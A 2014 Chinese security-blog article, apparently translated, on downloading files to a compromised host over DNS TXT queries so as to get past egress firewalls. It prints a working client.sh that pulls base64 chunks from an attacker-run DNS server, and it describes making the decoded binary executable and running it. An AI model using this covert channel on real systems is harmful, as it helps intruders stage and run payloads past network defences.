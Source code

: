 # 通过 dns 进行文件下载

2014/03/31 11:07 | [我是壮丁](http://drops.wooyun.org/author/我是壮丁 "由 我是壮丁 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

偶尔会遇到这样的情况，防火墙规则极大的限制外网的访问(这种情况经常是一个白名单来处理，仅仅允许少量的主机和外网产生连接)想要下载一下二进制文件到目标主机上，就会很麻烦。

我们来假设这样的一个情景：你已经拥有在上述情况下的主机、需要和你的本机传输工具或者数据。在这个情景下面、你被限制了下载，有一个好办法来突破这种限制，那就是通过 DNS 查询的来获得想要的数据。

如果目标机器的设定的 DNS(或者任何只要目标主机能够在网络上访问的 DNS 服务器)能够在网络上做 DNS 查询。那就能够下载想要的二进制文件。

## 0x02 原理

* * *

不了解这项技术的人可能以为是下面这样的流程:

```
目标主机<---->网络上的 DNS 服务器<---->注册域名服务器<---->攻击者的远端主机 
```

其实是这样的流程：

```
目标主机<---->构建的 DNS 服务器 
```

只要目标主机能够和搭建的 DNS 服务器进行 DNS 解析就可以实现。

方法就是在服务端通过 base64 来编码这些特殊文件，对编码后的文件分块，同时添加到 DNS Server 的记录中，然后在目标主机上进行域名的解析请求，DNS 服务器返回 base64 编码，在对 base64 编码进行解码，这样就实现了文件下载。

## 0x03 实现

* * *

使用方法：

```
1、对需要运行 server.py 脚本的服务器进行配置
2、在服务器上，执行 python server.py -f fielname
3、在客户端上，运行 sh client.sh dns.testdomain.com
4、这时你应该看到 client 和 server 开始产生 base64 的调试输出。client 会把 base64 的编码写到本地文件中，同时在结束传输时解码 
```

### 0x03a Python 代码导入了几个库，这些库可能需要单独安装:

dns 和 argparse，在安装 argparse 的时候可能会报错，根据报错安装所需的库，即可正常运行 server.py

PS:在 https://pypi.python.org/ 能够下载到

server.py 有三个参数：

```
-f  指定需要分割的二进制文件
-q  静默模式，不在终端上输出日志信息
-s  指定开始的 dns 解析的子域，必须设置成一个数字 client.sh 中的 i，必须和-s 指定的一样。默认是 0 
```

### 0x03b 在 server 上运行 server.py，创建 DNS 服务器，a.out 是一个二进制文件。

![enter image description here](img/img1_u69_jpg.jpg)

在目标主机上运行

### 0x03c sh client.sh domain

会产生以下输出

![enter image description here](img/img2_u55_jpg.jpg)

### 0x03d 脚本会对接受的 base64 的编码进行解码，添加执行权限后就可执行，执行二进制文件。

![enter image description here](img/img3_u44_jpg.jpg)

## 0x04 源码

* * *

server.py 下载地址

[`github.com/breenmachine/dnsftp`](https://github.com/breenmachine/dnsftp)

client.sh 脚本

```
#!/bin/bash
error=';; connection timed out; no servers could be reached'
i=0
echo ''> output.b64
while :
do
  RESP=`dig +short $i.$1 TXT | cut -d'"' -f 2`
  if [ "$RESP" = "$error" ];
  then
    echo "Timeout - done"
    break
  fi
  echo -ne $RESP >> output.b64
  echo $RESP
  i=$((i+1))
done
cat output.b64 | base64 -d >> output

```

文件打包下载：[dnsftp-master.zip](http://static.wooyun.org/20141017/2014101715211783609.zip)

翻译出处：

[`breenmachine.blogspot.com/2014/03/downloading-files-through-recursive-dns.html`](http://breenmachine.blogspot.com/2014/03/downloading-files-through-recursive-dns.html)

版权声明：未经授权禁止转载 [我是壮丁](http://drops.wooyun.org/author/我是壮丁 "由 我是壮丁 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [metasploit 渗透测试笔记(内网渗透篇)](http://drops.wooyun.org/tips/2746)
*   [说说 RCE 那些事儿](http://drops.wooyun.org/tools/3786)
*   [Android App Injection&&Drozer; Use](http://drops.wooyun.org/tips/2997)
*   [从内存中窃取未加密的 SSH-agent 密钥](http://drops.wooyun.org/tips/2719)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [Cobalt Strike 之团队服务器的搭建与 DNS 通讯演示](http://drops.wooyun.org/tools/1475)